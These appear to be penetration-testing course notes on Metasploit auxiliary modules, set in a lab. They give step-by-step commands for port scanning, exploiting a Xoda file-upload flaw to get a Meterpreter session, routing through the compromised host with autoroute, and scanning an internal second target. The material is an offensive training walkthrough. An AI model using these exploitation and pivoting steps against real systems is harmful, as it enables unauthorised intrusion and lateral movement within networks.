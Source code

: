 - An auxiliary module in the Metasploit Framework is a module used to perform functionality like scanning, discovery and fuzzing, basically any functionality that does not specifically involve the exploitation of a vulnerability.
- Auxiliary modules cannot be paired with payloads.
- Auxiliary modules are essentially used to extract information from a target host or service.
- We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP etc.
- Auxiliary modules are extremely powerful tools to use during the information gathering phase of a penetration test, as well as the post exploitation phase.

Why do we need to use the auxiliary modules present in Metasploit to perform port scanning if we can just use Nmap and then export those results to the Metasploit Framework console?
	- In the initial phases of performing a penetration test, the auxiliary modules present in the Metasploit Framework will work very similar to Nmap and allow you to identify open ports on a target system.
	- Where these modules really show the difference, is in the post exploitation phase of a penetration test.
	- Let us imagine a scenario where we gain access to a system present on an organization's internal network, and there are several other hosts present on the network. If the hosts are not configured to be connected to the internet or any external network, the only way to gain access to them is by pivoting from Target I we have access to, on the internal network.
	- Auxiliary modules in this scenario can be used to scan the other host present on the internal network.
	- It is not recommended to use Nmap in this scenario, since we would need to transfer a binary executable of Nmap to Target I before performing any further enumeration using it.
	- A Meterpreter session essentially provides us with an interactive command line on the target system.

Lab Infrastructure
	- We have two targets present on an Internal network, we will create an initial foothold on Target I which is running a vulnerable web server, and then utilize it to pivot to Target II using Metasploit Framework's auxiliary modules.
	- To do this, we will create a Meterpreter session on Target I, and then add a network route to utilize Target I to scan Target II.

Practical Demonstration
	- `service postgresql start`
	- `msfconsole`
	- `db_status`
	- `workspace a port_scan`
	- `workspace`
	- Scanning Target I
		- `search portscan`
		- `use auxiliary/scanner/portscan/tcp`
		- `options`
		- `set PORTS 1-65535`
		- The other options shown for the port scanning auxiliary modules can be used to modify the speed and the stealthiness of the scan.
		- The threads option can be used to change the concurrent threads used during the port scanning process, the maximum thread value which can be allocated is one per each host.
		- `set RHOSTS demo1.ine.local`
		- `options`
		- `run`
	- `curl demo1.ine.local:80` or just use your web browser to check what is hosted on the web server.
	- Exploiting the Xoda interface on Target I using Metasploit:
		- `search xoda`
		- `use exploit/unix/webapp/xoda_file_upload`
		- `options`
		- `set RHOSTS demo1.ine.local`
		- `set TARGETURI /`
		- `options`
		- `exploit`
	- Meterpreter Session on Target I
		- The `sysinfo` command on a Meterpreter shell can be used to provide system information about the compromised host.
		- The `shell` command can be used to run an interactive system shell on the Meterpreter session.
		- `ifconfig`
		- We will observe that the target host is part of two subnets: one on the external network (eth0) and one on the internal network (eth1). We have exploited a vulnerability on the external network interface (eth0). We will now proceed to scan the hosts on the internal network interface (eth1).
		- In the command below, to create a network route, we will use Target I's allocated IP address on the internal network (eth1), to specify the internal network's subnet in Metasploit's routing table.
		- We will now try to create a network route between the Target I and Target II, the `-s` flag for the autoroute module is used to specify the subnet to create the route on, using either a subnet address or an IP address of a host present on that subnet: `run autoroute -s 192.113.124.2`
	- The `background` command can be used to background running Meterpreter session on Metasploit: `background`
	- We can list all the active Meterpreter sessions using the command: `sessions`
	- Scanning Target II using our foothold on Target I:
		- `search portscan`
		- `use auxiliary/scanner/portscan/tcp`
		- `set RHOSTS demo2.ine.local`
		- The IP address of Target I and Target II were already known by us in this scenario to be `demo1.ine.local` and `demo2.ine.local` respectively.
		- Since, we already have a network route configured, we are automatically performing the port scan on Target II using Target I as a gateway.
		- `options`
		- `run`
	- We can also use static binaries of tools like Nmap to perform port scanning instead of a Metasploit module, but it is not recommended, since uploading binaries to the compromised system may leave unnecessary artifacts on the compromised system.
		- The `upload` command on a Meterpreter shell can be used to upload files to the compromised system.
		- `upload ./static_binaries/nmap /tmp/nmap`
	- Running a UDP port scan on Target II using our foothold on Target I:
		- `search udp_sweep`
		- `use auxiliary/scanner/discovery/udp_sweep`
		- `set RHOSTS 192.113.124.3`
		- `run`